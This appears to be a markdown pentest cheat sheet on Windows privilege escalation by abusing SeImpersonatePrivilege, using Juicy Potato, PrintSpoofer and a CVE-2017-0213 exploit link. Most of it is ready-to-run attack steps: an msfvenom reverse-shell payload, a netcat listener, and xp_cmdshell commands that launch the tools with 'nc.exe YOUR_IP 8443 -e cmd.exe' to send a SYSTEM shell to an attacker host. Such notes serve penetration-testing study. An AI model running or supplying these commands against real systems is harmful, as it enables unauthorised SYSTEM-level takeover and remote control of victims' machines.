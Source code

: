 #### **Tokens in Windows**

Every program (process) running on Windows has a **"token"**. Think of this like an **ID card**. It shows **who is running that program** (e.g., a normal user or the SYSTEM user).

- Some programs can **use someone else’s token** to **"pretend" to be them**. This is called **Impersonation**.
- But to do that, the process needs **special rights**:
    - **SeImpersonatePrivilege** (Impersonate someone else)
    - **SeAssignPrimaryTokenPrivilege** (Start a new process with someone else’s token)

> These are powerful rights usually only given to Admins.

___

# Juicy Potato

### 🔍 What is Juicy Potato?

**Juicy Potato** is a Windows local privilege escalation tool that abuses the **SeImpersonatePrivilege** to gain **SYSTEM-level access** from a low-privileged user account.

You already have **a shell** (or Meterpreter session) on the **target machine
#### Required Privilege:
- **SeImpersonatePrivilege** **OR**
- **SeAssignPrimaryTokenPrivilege**

> 🧠 **You only need one of them to work** (usually `SeImpersonatePrivilege` is enough)

## Method-1 (using shell)
#### 1️ Check User Privileges

On the target machine, run:
```bash
whoami /priv
```

Look for this line:
```
SeImpersonatePrivilege      Enabled
```

> ✅ If it's enabled, you can continue with the Juicy Potato attack!

#### 2️ Download Juicy Potato
Download the executable from:
👉 https://github.com/ohpe/juicy-potato
Rename it (for simplicity):

```bash
jp.exe
```
Copy it to the **victim machine**.

#### 3️ Create a Malicious Payload

On your **attacker machine** (Kali), generate a reverse shell in `.bat` format:
```bash
msfvenom -p cmd/windows/reverse_powershell LHOST=<Your_IP> LPORT=<Your_Port> -f raw > myshell.bat
```
Replace `<Your_IP>` and `<Your_Port>` with your Kali IP and chosen port.
Upload `myshell.bat` to the **victim machine**.
#### 4️ Start Netcat Listener
On your Kali machine:
```bash
nc -nlvp <Your_Port>
```
#### 5️ Run Juicy Potato Exploit

On the victim machine:
```bash
jp.exe -t * -p myshell.bat -l 4444
```
- `t *` = Try all available COM types
- `p myshell.bat` = The payload you want to run
- `l 4444` = Port used by the fake COM server (can be any unused port)

### 🎉 Result
You should now get a **reverse shell as SYSTEM** on your Netcat listener!

## Method-2 (Using mssqlclient.py)

1. check the privileges 
```sql
SQL> xp_cmdshell whoami
```

2. 
```sql
SQL> xp_cmdshell C:\tools\JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\tools\nc.exe YOUR_IP 8443 -e cmd.exe" -t *  
```
Explanation of flags:
- `-l 1337` = Random COM listener port
- `-p` = Program to run (cmd.exe)
- `-a` = Argument for cmd (Netcat reverse shell)
- `-t *` = Use both token impersonation methods (CreateProcessWithTokenW or CreateProcessAsUser)

you will have a reverse shell on your net cat listener 

# PrintSpoofer 

Requirements
- Local user with:
  - `SeImpersonatePrivilege`
  - Access to a system with the **Print Spooler service running**
- Windows 10 or Server 2016/2019 (unpatched

## Method-1 (using shell)

1. **Download PrintSpoofer**
   - [Download from GitHub Releases](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)
   - Choose the correct binary: `PrintSpoofer.exe` (x64 or x86)

2. **Execute with SYSTEM impersonation**
   ```bash
   ./PrintSpoofer.exe -i -c cmd
   ```

## Method-2 (Using mssqlclient.py)

1. check the privileges 
```sql
SQL> xp_cmdshell whoami
```

2. 
```sql
`SQL> xp_cmdshell C:\tools\PrintSpoofer.exe -c "C:\tools\nc.exe YOUR_IP 8443 -e cmd.exe"`
```

you will have a reverse shell on your net cat listener 


# CVE-2017-0213

https://github.com/eonrickity/CVE-2017-0213/blob/master/CVE-2017-0213_x64.exe
